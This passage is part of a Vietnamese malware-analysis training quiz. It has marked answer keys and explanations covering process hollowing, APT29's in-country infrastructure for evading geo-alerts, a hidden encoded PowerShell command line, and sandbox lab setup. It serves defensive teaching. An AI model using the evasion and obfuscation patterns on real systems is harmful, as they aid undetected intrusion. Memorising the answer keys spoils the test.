- [ ] Process replacement không thay đổi digital signature
- [ ] Verify chỉ check hash, không check signature

??? info "Giải thích"
    Process hollowing inject malicious code vào memory của legitimate process.
    File trên disk vẫn hợp lệ → Verify pass. Nhưng RAM content đã bị thay thế.

---

**Câu 13.** Kẻ tấn công trong case SolarWinds dùng IP tại quốc gia của nạn nhân.
Kỹ thuật này nhằm mục đích gì?

- [x] Tránh alert địa lý — traffic từ IP "nội địa" ít bị flag hơn
- [ ] Tăng tốc độ kết nối đến C2
- [ ] Bypass tường lửa của SolarWinds
- [ ] Mã hóa traffic bằng geo-based key

??? info "Giải thích"
    Nhiều security tool alert khi traffic đến IP từ quốc gia bất thường.
    APT29 dùng infrastructure tại cùng quốc gia với victim để blend in.

---

### Tầng 3 — Vận dụng

**Câu 14.** Bạn đang phân tích một file .bat đáng ngờ. Trong Any.run, bạn thấy
process tree: `cmd.exe → powershell.exe -windowstyle hidden -EncodedCommand [base64]`.
Bước tiếp theo hợp lý nhất là gì?

- [x] Decode base64 string để xem actual command; kiểm tra URL/domain trong output
- [ ] Kết luận ngay đây là malware vì dùng hidden window
- [ ] Submit lên thêm nhiều AV engine để confirm
- [ ] Revert VM và không phân tích thêm vì quá nguy hiểm

??? info "Giải thích"
    `-EncodedCommand` là common obfuscation. Decode base64 → thấy actual
    PowerShell command → tìm URL download thêm payload hoặc persistence
    mechanism. Hidden window một mình không đủ kết luận malicious.

---

**Câu 15.** Lab của bạn: Windows VM (malware) + Linux VM (INetSim), cùng host-only
network. Malware chạy xong nhưng Wireshark không capture bất kỳ traffic nào.
Nguyên nhân nào có thể xảy ra?

- [x] DNS server trên Windows VM chưa được set về IP của Linux VM (INetSim)
- [ ] Wireshark cần chạy với quyền Administrator mới capture được
- [ ] INetSim chỉ fake HTTP, không fake DNS
- [ ] Malware đã phát hiện Wireshark và không gửi traffic

??? info "Giải thích"
    INetSim fake DNS bằng cách trả về IP của chính nó cho mọi query. Nhưng
    nếu Windows VM dùng DNS server khác (8.8.8.8), DNS query sẽ fail hoặc đi
    ra ngoài host-only network. Phải set DNS = IP của Linux VM.

---

**Câu 16.** Bạn nhận được một DLL từ incident response. Muốn xem nó làm gì
khi được load. Bạn sẽ làm gì theo đúng thứ tự?

- [x] (1) Xem exported functions bằng PE Explorer/Dependency Walker → (2) Chạy `rundll32.exe malware.dll, [ExportName]` trong VM → (3) Monitor với Procmon/ProcExp
- [ ] (1) Đổi đuôi .dll thành .exe → (2) Double-click chạy → (3) Xem kết quả
- [ ] (1) Upload lên VirusTotal → (2) Nếu clean thì an toàn → (3) Không cần phân tích thêm
- [ ] (1) Decompile bằng IDA Pro → (2) Đọc assembly → (3) Kết luận từ static analysis

??? info "Giải thích"
    DLL không chạy trực tiếp được. Phải tìm exported function trước, sau đó
    dùng rundll32 invoke đúng function, monitor trong VM. Đây là workflow
    chuẩn cho DLL dynamic analysis.
